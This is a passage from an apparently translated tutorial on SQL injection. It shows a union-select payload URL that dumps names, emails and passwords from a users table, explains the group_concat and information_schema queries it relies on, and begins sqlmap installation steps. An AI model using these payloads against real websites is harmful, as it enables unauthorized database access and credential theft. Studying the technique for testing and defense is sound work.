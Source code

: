 `0pepitopepito@correo.comcontraseñasegura`

If you realize it is all together because that is what we are calling it, to fix this we are going to make use of the `hex` encoding and the`:`symbol.

the symbol `:` in `hex` looks like this:` 0x3a`.

```
http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' union select 1,2,3,4,group_concat(id,0x3a,name,0x3a,email,0x3a,passwd),6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,23 from usuarios --+
```
It shows us:

`0:pepito:pepito@correo.com:contraseñasegura`

now more understandable.

## *As note* 

To perform these custom "attacks" we use a few things that I would like to explain:

1-`gruop_concat () `: This is a function that allows us to concatenate values, in such a way that we are using it to return the values that we choose from the selected table.

2-`group_concat (table_name) from information_schema.tables`: This statement returns the name of the tables (note that we are making use of `group_concat (table_name)`) from information_schema.tables, this means that we are making a statement that reflects the name of the tables that are inside the database called information_schema.

3-`group_concat (table_name) from information_schema.tables where table_schema = database () `: This sequence is very similar to the previous one, only another command is added here:` where` that is used to make the query a little more personalized , in this case we are using it to direct the query within the database called `DB_name`

## Automated sql injection with sqlmap

### ¿What is sqlmap?

SQLMap is a tool to exploit the SQL injection vulnerability. This tool automates the attack in order to exploit the page.

### Sqlmap installation

To start I would like to leave the official page here: `http://sqlmap.org/`

Sqlmap is a tool that works in python in its versions: 2.6, 2.7 and 3.x on all platforms, so there is no problem to use it, personally I have used it on windows, linux and termux and it works excellent on all of them.

The first thing we have to do is have git installed to be able to clone its official repository to our device, the git site is the following:

https://github.com/sqlmapproject/sqlmap.git

to clone it we use the following:

git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

